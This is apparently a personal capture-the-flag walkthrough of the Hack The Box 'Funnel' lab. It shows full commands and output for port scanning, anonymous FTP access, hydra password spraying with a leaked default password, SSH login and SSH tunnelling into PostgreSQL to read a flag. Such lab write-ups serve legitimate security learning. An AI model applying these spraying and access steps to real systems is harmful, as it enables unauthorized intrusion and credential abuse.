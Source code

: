# Funnel

> 10.129.228.195

## Nmap
```
nmap 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:33 EDT
Nmap scan report for 10.129.228.195
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```
```
nmap -sS -sV -sC -O -p 21,22 -T4 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:35 EDT
Nmap scan report for 10.129.228.195
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

## FTP Enumeration
```
nmap --script ftp-anon -p 21 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:37 EDT
Nmap scan report for 10.129.228.195
Host is up (0.040s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```
## FTP Login
1. Logged in as `anonymous` (no password/null password)
2. Did a `pwd` and was in a root directory for ftp (not the actual root)
3. Did an `ls` and saw there was one subdir: `mail_backup`
4. `cd` into the subdir and an `ls` revealed two files that I downloaded:

```
ftp> ls
229 Entering Extended Passive Mode (|||6644|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.

ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||38072|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |**************************************************************************************************************| 58899      695.91 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (474.45 KiB/s)

ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||56481|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |**************************************************************************************************************|   713       13.87 MiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (34.43 KiB/s)
```

## password_policy.pdf
- Doc says: "...the default password of “funnel123#!#” must be changed immediately."
- The `welcome` file is the same as the `password` file.

## Users
- Need for find a list of users on the target to try the password.
- Or... password spraying: "Password spraying is a type of brute force attack which involves a malicious actor attempting to use the same password on multiple accounts before moving on to try another one."

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'funnel123#!#' 10.129.228.195 ftp                                     
[21][ftp] host: 10.129.228.195   login: ftp   password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
```

- Logged in with that user and didn't get anywhere. Used a different username list.
- Ran `hydra` and it crashed the target. Had to reset and tweak the timing (`-t`) of `hydra`.

> reset: 10.129.34.254

```
hydra -L /usr/share/wordlists/rockyou.txt -p 'funnel123#!#' 10.129.34.254 ftp -I -t 3
[21][ftp] host: 10.129.34.254   login: christine   password: funnel123#!#
```

## SSH
- used the creds `christine:funnel123#!#` to login via ssh.
- I could login but that didn't get me anywhere

## Enumeration
> This is from the walkthrough doc
- From this point on, we have complete access as the christine user on the target machine, and can start enumerating it for potential files or services that we can explore further.
- A crucial command at this point in time is the `ss` command ([reference](../../04_Enumeration/enum_sockets.md)), which stands for `socket statistics`, and it can be used to check which ports are listening locally on a given machine.
```
ss -tln
# -l: Display only listening sockets.
# -t: Display TCP sockets.
# -n: Do not try to resolve service names.
```
- If there are ports listening on the system, they will be listed by `ss`.
- In our scenario, one of the results was: `127.0.0.1:5432`.

### Problem
- If you login via ssh as `christine` and try to run `psql` (the command line tool used for interacting with a PostgreSQL database), you'll get the message that `psql` has not been installed.
- The solution is to use `psql` on my local machine and tunnel commands through ssh to the remote target.
- And that's what follows...

## PostgreSQL
- TCP port is open 5432 (do a better nmap scan!! The question to answer on HTB led me to this port; I didn't find it)
- That port is used by PostgreSQL and it only listens only on localhost so if you want to connect remotely, you have to use ssh...
- Since you can't access PostgreSQL from the local machine, you will have to create a tunnel with local port forwarding
- Ref: https://www.postgresql.org/docs/current/ssh-tunnels.html

### SSH Tunneling to PostgreSQL
- Following the reference link above, I did: 
```
ssh -L 63333:localhost:5432 christine@10.129.34.254
psql -h localhost -p 63333 --username=christine postgres

# Result: postgres prompt...

postgres=# 
postgres-# \?     # for help
postgres-# \l     # list all databases
                                                        List of databases                                                                                   
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |    Access privileges                               
-----------+-----------+----------+-----------------+------------+------------+------------+-----------+-------------------------                           
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
(5 rows)  

postgres-# \c secrets      # connect to database
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))                                                                                          
You are now connected to database "secrets" as user "christine". 

secrets-# \dt               # list all database tables
 public | flag | table | christine

secrets=# SELECT * FROM flag;
 cf277664b1771217d7006acdea006db1

```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/f3392c77-027b-497e-abd6-4b6218651a92)

